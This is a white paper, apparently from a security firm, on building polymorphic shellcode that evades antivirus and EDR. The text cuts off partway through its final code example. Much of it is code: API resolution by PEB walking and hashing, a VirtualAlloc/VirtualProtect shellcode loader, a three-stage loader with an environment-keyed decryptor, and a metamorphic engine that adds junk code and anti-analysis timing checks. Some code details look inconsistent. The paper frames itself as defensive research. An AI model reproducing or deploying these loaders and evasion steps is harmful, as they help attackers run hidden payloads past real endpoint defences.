




# Polymorphic Shellcode Generation for Modern Architecture Bypasses
# Creating Attack Payloads that Dynamically Morph to Evade Detection

## Executive Summary

In January 2025, MottaSec's advanced offensive security research team conducted a comprehensive assessment of modern defensive technologies designed to detect and prevent shellcode execution in enterprise environments. This research specifically focused on the evolving capabilities of Next-Generation Antivirus (NGAV) solutions, Endpoint Detection and Response (EDR) platforms, and hardware-based security features in contemporary processor architectures.

Our research culminated in the development of advanced polymorphic shellcode techniques that can successfully evade detection by adapting their structure and behavior during execution while maintaining full functionality. By leveraging a combination of runtime code modification, advanced obfuscation techniques, and exploitation of architectural nuances in modern processors, we demonstrated the ability to bypass multiple layers of security controls that organizations typically rely on for protection against memory-based attacks.

This white paper details our methodology, technical findings, and the novel techniques we developed, providing valuable insights for security professionals responsible for defending against advanced threats. Our findings underscore the importance of a defense-in-depth approach that combines traditional signature-based detection with behavioral analysis and architectural controls.

## 1. Introduction

Memory-based attacks have long been a cornerstone of advanced threat actors' arsenals, allowing attackers to execute malicious code while potentially bypassing file-based security controls. As defensive technologies have evolved to detect known patterns and behaviors associated with shellcode, attackers have correspondingly developed increasingly sophisticated techniques to evade these defenses.

Polymorphic shellcode represents one of the most advanced forms of this cat-and-mouse game, employing code that can transform itself during execution to evade pattern matching while preserving its malicious functionality. Unlike earlier, simpler forms of polymorphism that merely changed encryption keys or superficial characteristics, modern polymorphic techniques leverage deep understanding of processor architecture, memory management, and defensive technology limitations.

This white paper presents our findings from an in-depth research initiative focused on developing next-generation polymorphic shellcode capable of bypassing modern defensive technologies. Our analysis examined:

- The evolution of shellcode detection techniques in modern security solutions
- Architectural features of contemporary processors that can be leveraged for code polymorphism
- Novel approaches to dynamic code transformation that preserve functionality while evading detection
- The effectiveness of these techniques against current commercial security products
- Potential defensive strategies to mitigate these advanced evasion techniques

Our research was conducted in controlled laboratory environments using legitimate security research tools and platforms, with the goal of advancing understanding of offensive techniques to inform better defensive strategies.

### 1.1 Research Context and Implications

The security landscape has evolved significantly in recent years, with organizations deploying increasingly sophisticated endpoint protection platforms that combine traditional antivirus capabilities with behavioral detection, machine learning, and hardware-based security features. These advancements have raised the bar for attackers, necessitating more complex and targeted approaches to achieve code execution on protected systems.

Our decision to conduct this research was motivated by several factors:

1. The increasing reliance on behavioral and heuristic detection techniques in modern security solutions
2. The introduction of hardware-based security features in contemporary processors designed to prevent shellcode execution
3. The need to assess the resilience of current defensive technologies against sophisticated evasion techniques
4. The importance of understanding attack evolution to develop more effective defensive strategies

Throughout this document, we provide technical details necessary to understand the underlying techniques while avoiding disclosure of complete "turnkey" exploit code that could be immediately weaponized. Our goal is to advance the collective understanding of these techniques to drive improvement in defensive capabilities.

## 2. Technical Background

### 2.1 Evolution of Shellcode Detection Mechanisms

To understand the challenges of evading modern detection systems, it's essential to examine how shellcode detection has evolved over time:

#### 2.1.1 Signature-Based Detection

Traditional detection mechanisms relied primarily on static signatures - specific byte patterns that identify known malicious code. This approach worked reasonably well for static shellcode but became ineffective against even basic obfuscation techniques.

```assembly
; Example of easily-detectable shellcode pattern (x86)
xor ecx, ecx       ; Clear ECX register
mov al, 0x1        ; System call number
xor ebx, ebx       ; Zero out EBX
int 0x80           ; Trigger system call
```

Such patterns became easily recognizable by security solutions, leading to the development of more sophisticated detection mechanisms.

#### 2.1.2 Heuristic Detection

As signature-based approaches proved insufficient, security vendors implemented heuristic detection methods that look for suspicious characteristics or behaviors often associated with shellcode:

- High entropy (randomness) in data segments
- Presence of specific instruction sequences commonly used in exploits
- Unusual memory allocation patterns
- Suspicious API call sequences
- Self-modifying code behaviors

These heuristic approaches significantly raised the bar for attackers but still relied on identifying known patterns of malicious behavior.

#### 2.1.3 Machine Learning and Behavioral Analysis

Current-generation security solutions employ sophisticated machine learning algorithms trained on vast datasets of both benign and malicious code. These systems can identify subtle patterns that might indicate shellcode:

- Statistical anomalies in instruction distributions
- Contextually unusual code execution patterns
- Execution flow characteristics that deviate from normal application behavior
- Relationships between memory operations and subsequent execution

These systems operate at various levels, including:

- Static analysis before code execution
- Dynamic analysis during runtime
- Post-execution forensic analysis

#### 2.1.4 Hardware-Based Detection Mechanisms

Modern processors incorporate security features specifically designed to prevent shellcode execution:

- **W^X (Write XOR Execute)**: Memory can be either writable or executable, but not both simultaneously
- **Control Flow Integrity (CFI)**: Restricts control flow transitions to a predetermined set of valid targets
- **Code Signing Requirements**: Especially in mobile and increasingly in desktop environments
- **Hardware-enforced Shadow Stacks**: Protection against return-oriented programming attacks
- **Memory Tagging**: Adding metadata to memory allocations to detect misuse

### 2.2 Understanding Shellcode Fundamentals

Before exploring polymorphic techniques, it's important to understand the fundamental characteristics of shellcode that make it detectable:

#### 2.2.1 Shellcode Structure

Traditional shellcode typically consists of several key components:

1. **Position-Independent Code (PIC)**: Shellcode must execute correctly regardless of where it's loaded in memory
2. **Null-Free Encoding**: Especially for exploitation scenarios where null bytes might terminate input
3. **Size Constraints**: Often needs to fit within limited buffer space
4. **API Resolution**: Techniques to locate necessary system functions
5. **Payload Logic**: The actual malicious functionality (command execution, data exfiltration, etc.)

Each of these components creates recognizable patterns that defenders can detect.

##### Assembly Fundamentals for Shellcode

For readers less familiar with assembly, let's examine some fundamental concepts that are essential for understanding shellcode:

**Basic x86-64 Assembly Structure**

```assembly
; Basic x86-64 instruction format
[label:] instruction operands    ; comment

; Example of labeled code section
find_kernel32:
    xor ecx, ecx                ; Zero out ECX register 
    mov eax, fs:[ecx + 0x30]    ; Access Process Environment Block (PEB)
    mov eax, [eax + 0x0C]       ; Get PEB_LDR_DATA pointer
    mov esi, [eax + 0x14]       ; Get InMemoryOrderModuleList pointer
```

**Key Registers and Their Common Uses in Shellcode**

```assembly
; Common register usage in x86-64 shellcode
rax/eax - Return values, function numbers for syscalls
rbx/ebx - Base pointer, often preserved across function calls
rcx/ecx - Counter for loops, first function argument in Windows x64
rdx/edx - Data register, often used for I/O, second function argument
rsi/esi - Source index for string operations
rdi/edi - Destination index for string operations
rbp/ebp - Base pointer for stack frame
rsp/esp - Stack pointer
r8-r15  - Additional general-purpose registers in x64
```

**Position-Independent Code Example**

Traditional software often relies on fixed memory addresses, while shellcode must work regardless of where it's loaded:

```assembly
; Non-position-independent code (won't work in shellcode)
mov rax, 0x1234567890ABCDEF    ; Hardcoded absolute address
call rax                        ; Call function at fixed address

; Position-independent version
call get_eip                    ; Call next instruction
get_eip:
pop rbx                         ; RBX now contains current instruction pointer
add rbx, 0x200                  ; Calculate address relative to current position
call rbx                        ; Call function at relative address
```

**Null-Free Encoding Example**

Many exploitation scenarios require shellcode to avoid null bytes:

```assembly
; Code with null bytes
mov rax, 0                     ; Will contain null bytes in encoding
mov ecx, 0x100                 ; No null bytes in immediate value

; Null-free versions
xor rax, rax                   ; Zero RAX without null bytes
neg rax                        ; Another way to zero RAX
sub ecx, ecx                   ; Zero ECX without null bytes
mov al, 0xFF                   ; No null bytes
not al                         ; Result: AL = 0x00, but no null in instruction
```

**API Resolution Techniques**

Shellcode needs to locate system APIs without hardcoded addresses. Common approaches include:

```c
// Simplified pseudocode for PEB-walking to find kernel32.dll
void* find_kernel32() {
    // Access Process Environment Block
    PEB* peb = __readgsqword(0x60);  // x64 version
    
    // Walk the loaded module list
    LIST_ENTRY* moduleList = peb->Ldr->InMemoryOrderModuleList.Flink;
    
    // Iterate through modules
    while (moduleList) {
        LDR_DATA_TABLE_ENTRY* module = CONTAINING_RECORD(moduleList, 
                                        LDR_DATA_TABLE_ENTRY, InMemoryOrderLinks);
        
        // Check if this is kernel32.dll (simplified)
        if (is_kernel32(module->BaseDllName)) {
            return module->DllBase;
        }
        
        moduleList = moduleList->Flink;
    }
    return NULL;
}
```

This is translated to assembly as:

```assembly
find_kernel32:
    xor rdx, rdx                        ; Zero RDX
    mov rdx, [gs:rdx + 0x60]            ; Get PEB address
    mov rdx, [rdx + 0x18]               ; Get PEB_LDR_DATA pointer
    mov rdx, [rdx + 0x20]               ; Get InMemoryOrderModuleList first entry
    
module_loop:
    mov rcx, [rdx + 0x50]               ; Get module base address
    mov rbx, [rdx + 0x20]               ; Get pointer to BaseDllName (UNICODE_STRING)
    mov rdx, [rdx]                      ; Get pointer to next module
    
    cmp [rbx + 0x01], 'k'               ; Compare second character with 'k'
    jne module_loop                      ; Jump if not equal
    
    cmp [rbx + 0x03], 'r'               ; Compare with 'r'
    jne module_loop
    
    ; Additional comparisons omitted for brevity
    ; RCX now contains the kernel32.dll base address
```

#### 2.2.2 Shellcode Execution Environment

The execution environment imposes important constraints on shellcode:

1. **Memory Permissions**: DEP/NX bit enforcement requires executable memory
2. **ASLR**: Address Space Layout Randomization complicates finding API functions
3. **Stack Canaries**: Protect against stack-based buffer overflows
4. **Sandboxing**: Limited execution environments restrict shellcode capabilities
5. **Process Monitoring**: Runtime monitoring can detect suspicious behavior

**Handling Memory Permissions**

Modern systems enforce strict memory permissions that shellcode must overcome:

```c
// Example C code showing legitimate memory permission modification
// This pattern is often detected by security solutions
void create_executable_memory() {
    // Allocate memory with RW permissions initially
    void* mem = VirtualAlloc(NULL, 4096, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    
    // Copy shellcode to the allocated memory
    memcpy(mem, shellcode, shellcode_size);
    
    // Change permissions to allow execution
    DWORD oldProtect;
    VirtualProtect(mem, shellcode_size, PAGE_EXECUTE_READ, &oldProtect);
    
    // Execute the shellcode
    ((void(*)())mem)();
}
```

**Dealing with ASLR**

ASLR randomizes module base addresses, requiring shellcode to dynamically locate functions:

```c
// Example function to find an exported function by hash
// This avoids using detectable string names in the shellcode
typedef UINT_PTR (*FunctionType)();

FunctionType find_function_by_hash(UINT_PTR module_base, DWORD function_hash) {
    // Get DOS header
    IMAGE_DOS_HEADER* dos_header = (IMAGE_DOS_HEADER*)module_base;
    
    // Get NT headers
    IMAGE_NT_HEADERS* nt_headers = (IMAGE_NT_HEADERS*)(module_base + dos_header->e_lfanew);
    
    // Get export directory
    DWORD export_dir_rva = nt_headers->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress;
    IMAGE_EXPORT_DIRECTORY* export_dir = (IMAGE_EXPORT_DIRECTORY*)(module_base + export_dir_rva);
    
    // Get tables
    DWORD* function_table = (DWORD*)(module_base + export_dir->AddressOfFunctions);
    DWORD* name_table = (DWORD*)(module_base + export_dir->AddressOfNames);
    WORD* ordinal_table = (WORD*)(module_base + export_dir->AddressOfNameOrdinals);
    
    // Iterate through exported functions
    for (DWORD i = 0; i < export_dir->NumberOfNames; i++) {
        // Get function name
        char* function_name = (char*)(module_base + name_table[i]);
        
        // Calculate hash of the name
        DWORD current_hash = compute_hash(function_name);
        
        // Compare with desired hash
        if (current_hash == function_hash) {
            // Get function address
            DWORD function_rva = function_table[ordinal_table[i]];
            return (FunctionType)(module_base + function_rva);
        }
    }
    
    return NULL;
}
```

**Shellcode with Stack Canary Awareness**

Modern stack protection mechanisms require shellcode to preserve or avoid canary values:

```assembly
; Traditional buffer overflow might corrupt the stack canary
buffer_overflow:
    sub rsp, 0x20                    ; Allocate stack space
    mov rcx, [gs:0x28]               ; Get stack canary value in Windows x64
    mov [rsp + 0x18], rcx            ; Save canary on stack
    
    ; Buffer operation that doesn't overwrite the canary
    ; ...
    
    mov rcx, [rsp + 0x18]            ; Retrieve canary
    xor rcx, [gs:0x28]               ; Compare with original value
    jnz canary_failed                ; Jump if canary was modified
    add rsp, 0x20                    ; Restore stack pointer
    ret                              ; Safe return
    
canary_failed:
    ; Handle canary check failure (typically, terminate process)
    call system_failure
```

These fundamental concepts provide the building blocks for understanding both traditional shellcode and the more advanced polymorphic techniques discussed later in this paper.

### 2.3 Traditional Polymorphic Techniques and Their Limitations

Early polymorphic techniques focused primarily on evading signature-based detection:

#### 2.3.1 Encryption/Decryption Loops

The first generation of polymorphic shellcode used simple encryption techniques:

```
[Decryption Routine] + [Encrypted Payload]
```

The decryption routine would decrypt the payload at runtime before executing it. While the encrypted payload would change with each instance (using different encryption keys), the decryption routine itself became a recognizable signature.

#### 2.3.2 Metamorphic Techniques

More advanced approaches used metamorphic techniques that changed the structure of the code itself:

- Instruction substitution (replacing instructions with functionally equivalent alternatives)
- Register reassignment (changing which registers are used for which operations)
- Instruction reordering (changing the sequence of independent instructions)
- Insertion of junk code (adding non-functional instructions to change patterns)

```assembly
; Original code
xor eax, eax
mov ebx, 1
int 0x80

; Metamorphic variant 1
sub eax, eax
push 1
pop ebx
int 0x80

; Metamorphic variant 2
mov eax, 0xFFFFFFFF
inc eax
mov ebx, 0
inc ebx
int 0x80
```

While more effective than simple encryption, these techniques still produced recognizable patterns that could be detected through advanced analysis.

#### 2.3.3 Limitations of Traditional Approaches

Traditional polymorphic techniques faced several critical limitations:

1. **Fixed Decoder Signatures**: The code that performs the runtime transformation often contains detectable patterns
2. **Predictable Transformation Patterns**: The variations followed predictable rules that could be modeled by defenders
3. **Runtime Behavior Consistency**: Despite structural changes, the runtime behavior remained consistent and detectable
4. **Limited Adaptability**: Could not respond to the execution environment or defensive measures encountered

These limitations rendered traditional polymorphic techniques increasingly ineffective against modern detection systems, necessitating the development of the advanced approaches described in this paper.

## 3. Modern Polymorphic Techniques

Our research focused on developing and testing next-generation polymorphic techniques that overcome the limitations of traditional approaches. These advanced methods leverage deeper understanding of modern processor architecture, memory management mechanisms, and defensive technology limitations.

### 3.1 Architectural Considerations in Modern Processors

Modern polymorphic shellcode must consider the architectural features of contemporary processors, which present both challenges and opportunities:

#### 3.1.1 Instruction Set Architecture (ISA) Complexity

Modern processors support increasingly complex instruction sets that can be leveraged for polymorphism:

1. **CISC Architectures (x86/x64)**:
    - Instruction encodings allow multiple ways to express equivalent operations
    - Variable instruction lengths enable sophisticated code transformation
    - Rich instruction set provides numerous opportunities for substitution
    - Legacy support creates edge cases that detection engines struggle with

2. **RISC Architectures (ARM/RISC-V)**:
    - Fixed instruction length simplifies certain transformations
    - Predictable encoding patterns require different polymorphic approaches
    - Simpler instruction set necessitates more creative transformations
    - ARM's multiple execution modes (ARM/Thumb/Thumb-2) create unique opportunities

```assembly
; x86-64 example of multiple encodings for the same operation
; All clear RAX to zero but appear different at the binary level

; Variant 1: XOR
48 31 C0      xor rax, rax

; Variant 2: MOV immediate
48 C7 C0 00   mov rax, 0
00 00 00

; Variant 3: SUB register from itself  
48 29 C0      sub rax, rax

; Variant 4: PXOR with SSE
66 0F EF C0   pxor xmm0, xmm0
48 0F 7E C0   movq rax, xmm0
```

#### 3.1.2 Processor Microarchitecture Exploitation

The gap between architectural specification (the "logical" processor) and implementation (the physical processor) creates unique opportunities:

1. **Speculative Execution**:
    - Leveraging branch prediction and speculative paths for anti-analysis
    - Creating complex branch structures that mislead analysis engines
    - Exploiting microarchitectural side-effects to obscure true behavior

2. **Instruction Fusion and Micro-op Caching**:
    - Designing code patterns that appear suspicious statically but optimize to benign operations
    - Using knowledge of micro-operation translation to create deceptive code sequences
    - Exploiting processor-specific optimizations that security tools may not model correctly

3. **Cache Hierarchy Manipulation**:
    - Timing-based obfuscation using predictable cache behavior
    - Self-modifying code that leverages cache coherency protocols
    - Creating execution patterns that vary based on the memory subsystem state

#### 3.1.3 Memory Management Unit (MMU) Manipulation

The memory management systems of modern processors provide powerful mechanisms for polymorphic code:

1. **Virtual Memory Transformations**:
    - Dynamic mapping and unmapping of memory regions during execution
    - Creating execute-only memory regions that resist analysis
    - Leveraging translation lookaside buffer (TLB) effects for timing-based obfuscation

2. **Page Permission Manipulation**:
    - Strategic toggling of page permissions to evade W^X protection
    - Splitting code across multiple pages with different characteristics
    - Creating guard pages to detect analysis attempts

3. **Memory Tagging Considerations**:
    - Accounting for ARM Memory Tagging Extension (MTE) and similar technologies
    - Techniques to preserve or manipulate memory tags during polymorphic transformations

### 3.2 Advanced Code Transformation Techniques

Through our research, we developed several novel techniques for dynamic code transformation that exceed the capabilities of traditional polymorphic approaches:

#### 3.2.1 Multi-Stage Polymorphic Engines

Rather than a single transformation, our approach uses multiple sequential transformation stages:

```
[Stage 1 Engine] → [Stage 2 Engine] → [Stage 3 Engine] → ... → [Final Payload]
```

Each stage:
- Applies a different transformation technique
- Operates on a different code abstraction level
- Uses different patterns and characteristics
- Leaves minimal predictable signatures
- Potentially generates the subsequent stage dynamically

This multi-stage approach dramatically complicates detection, as each stage must be correctly analyzed to predict the final payload.

##### Practical Implementation Example

Let's examine a concrete example of a three-stage transformation process in C and assembly:

**Stage 1: Initial Bootstrap (Loader)**

```c
// Stage 1: Initial bootstrap code (simplified for clarity)
void stage1_loader(void) {
    // Allocate memory for Stage 2 with READ/WRITE permissions
    void* stage2_mem = VirtualAlloc(NULL, STAGE2_SIZE, MEM_COMMIT, PAGE_READWRITE);
    
    // Generate Stage 2 code dynamically based on environment
    uint8_t* encrypted_stage2 = get_encrypted_stage2();
    uint8_t key[16];
    
    // Generate environment-dependent decryption key
    generate_key_from_environment(key);
    
    // Decrypt Stage 2 into allocated memory
    for (int i = 0; i < STAGE2_SIZE; i++) {
        ((uint8_t*)stage2_mem)[i] = encrypted_stage2[i] ^ key[i % 16];
    }
    
    // Change permissions to allow execution
    DWORD old_protect;
    VirtualProtect(stage2_mem, STAGE2_SIZE, PAGE_EXECUTE_READ, &old_protect);
    
    // Transfer control to Stage 2
    ((void(*)())stage2_mem)();
}
```

Assembly equivalent (x64):

```assembly
; Stage 1: Bootstrap loader in assembly
stage1_loader:
    ; Save registers
    push rbp
    mov rbp, rsp
    sub rsp, 0x40
    
    ; Allocate memory for Stage 2
    mov rcx, 0                  ; lpAddress (NULL)
    mov rdx, STAGE2_SIZE        ; dwSize
    mov r8, 0x1000              ; MEM_COMMIT
    mov r9, 0x04                ; PAGE_READWRITE
    call VirtualAlloc
    
    ; Save allocated address
    mov r15, rax                ; Store in non-volatile register
    
    ; Get encrypted stage2 data
    call get_encrypted_stage2   ; Returns pointer in RAX
    mov r14, rax                ; Store encrypted data pointer
    
    ; Generate key on stack
    lea rcx, [rsp + 0x10]       ; Buffer for key (16 bytes)
    call generate_key_from_environment
    
    ; Decrypt loop
    xor rcx, rcx                ; Counter = 0
    
decrypt_loop:
    cmp rcx, STAGE2_SIZE
    jae decrypt_done
    
    ; Calculate key index (i % 16)
    mov rax, rcx
    and rax, 0xF                ; RAX = i % 16
    
    ; Get key byte
    movzx rdx, byte ptr [rsp + 0x10 + rax]
    
    ; Get encrypted byte
    movzx rax, byte ptr [r14 + rcx]
    
    ; Decrypt
    xor rax, rdx
    
    ; Store decrypted byte
    mov byte ptr [r15 + rcx], al
    
    ; Increment counter
    inc rcx
    jmp decrypt_loop
    
decrypt_done:
    ; Change memory permissions
    mov rcx, r15                ; lpAddress
    mov rdx, STAGE2_SIZE        ; dwSize
    mov r8, 0x20                ; PAGE_EXECUTE_READ
    lea r9, [rsp + 0x30]        ; lpflOldProtect
    call VirtualProtect
    
    ; Call Stage 2
    call r15
    
    ; Cleanup and return
    add rsp, 0x40
    pop rbp
    ret
```

**Stage 2: Metamorphic Engine**

Stage 2 builds a more complex metamorphic engine that will generate the final payload:

```c
// Stage 2: Metamorphic engine (simplified)
void stage2_metamorphic_engine(void) {
    // Allocate memory for Stage 3 (final payload)
    void* stage3_mem = VirtualAlloc(NULL, STAGE3_SIZE, MEM_COMMIT, PAGE_READWRITE);
    
    // Setup intermediate representation (IR) of payload
    IR_Block* payload_ir = create_payload_ir();
    
    // Apply transformations based on environment
    if (detect_feature("AVX2")) {
        apply_avx_transformations(payload_ir);
    } else {
        apply_standard_transformations(payload_ir);
    }
    
    // Randomize register allocation
    randomize_registers(payload_ir);
    
    // Insert junk code and opaque predicates
    insert_obfuscation(payload_ir);
    
    // Generate final code
    uint8_t* final_code = generate_code_from_ir(payload_ir, detect_architecture());
    
    // Copy to executable memory
    memcpy(stage3_mem, final_code, STAGE3_SIZE);
    
    // Update permissions
    DWORD old_protect;
    VirtualProtect(stage3_mem, STAGE3_SIZE, PAGE_EXECUTE_READ, &old_protect);
    
    // Execute final payload
    ((void(*)())stage3_mem)();
}
```

**Stage 3: Final Payload**

The final payload example shows how it looks after the transformations:

```assembly
; Original simple payload (Windows x64 message box)
; --------------------------------------------------
original_payload:
    ; LoadLibraryA("user32.dll")
    mov rcx, 0x6c6c642e32337265 ; "er32.dll" (partial)
    push rcx
    mov rcx, 0x7375             ; "us" (partial)
    push rcx
    mov rcx, rsp                ; "user32.dll" string pointer
    call LoadLibraryA
    
    ; GetProcAddress(handle, "MessageBoxA")
    mov rcx, rax                ; DLL handle
    mov rdx, 0x41786f42656761   ; "ageBoxA" (partial)
    push rdx
    mov rdx, 0x7373654d         ; "Mess" (partial)
    push rdx
    mov rdx, rsp                ; Function name pointer
    call GetProcAddress
    
    ; MessageBoxA(NULL, "Hello", "Shellcode", MB_OK)
    xor rcx, rcx                ; hWnd = NULL
    mov rdx, 0x6f6c6c6548       ; "Hello"
    push rdx
    mov rdx, rsp                ; Text
    mov r8, 0x65646f636c6c      ; "llcode" (partial)
    push r8
    mov r8, 0x656853            ; "She" (partial)
    push r8
    mov r8, rsp                 ; Caption
    mov r9, 0                   ; MB_OK
    call rax                    ; Call MessageBoxA

; Transformed payload after multi-stage polymorphism
; --------------------------------------------------
transformed_payload:
    ; Create stack frame with random size
    push rbp
    mov rbp, rsp
    sub rsp, 0x58
    
    ; Anti-analysis timing check
    rdtsc                       ; Read time-stamp counter
    mov [rbp-0x8], eax
    mov [rbp-0x4], edx
    
    ; First garbage calculation (appears useful but results unused)
    mov rax, 0x29A
    add rax, 0x567
    imul rax, 0x12
    mov [rbp-0x10], rax
    
    ; LoadLibrary equivalent with split strings
    mov byte ptr [rsp+0x20], 'u'
    mov byte ptr [rsp+0x21], 's'
    mov byte ptr [rsp+0x22], 'e'
    mov byte ptr [rsp+0x23], 'r'
    mov byte ptr [rsp+0x24], '3'
    mov byte ptr [rsp+0x25], '2'
    mov byte ptr [rsp+0x26], '.'
    mov byte ptr [rsp+0x27], 'd'
    mov byte ptr [rsp+0x28], 'l'
    mov byte ptr [rsp+0x29], 'l'
    mov byte ptr [rsp+0x2A], 0
    
    ; Opaque predicate (always evaluates to true but looks conditional)
